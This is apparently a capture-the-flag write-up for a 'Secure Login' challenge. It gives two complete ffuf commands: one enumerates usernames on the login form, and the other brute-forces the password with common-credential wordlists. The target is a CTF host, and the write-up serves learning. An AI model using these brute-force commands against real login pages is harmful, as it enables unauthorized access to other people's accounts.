 ## Day 5 - Secure Login

On this app, main goal is : 
> Try and find a way past the login page to get to the secret area.

We just have a login interface : 

![cf_array](./images/5-secure-login.png) 
  
After a few attempts to bypass the authentication, I started a phase of brute force on the login interface.  
**FFUF again !!**

To be able to retrieve the username, I used :  
```
ffuf -X POST -u https://hackyholidays.h1ctf.com/secure-login -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=grinch" -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -fr 'Invalid Username'
```

And to be able to retrieve the password, I used :   
```
ffuf -X POST -u https://hackyholidays.h1ctf.com/secure-login -H "Content-Type: application/x-www-form-urlencoded" -d "username=access&password=FUZZ" -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt -fc 200
```

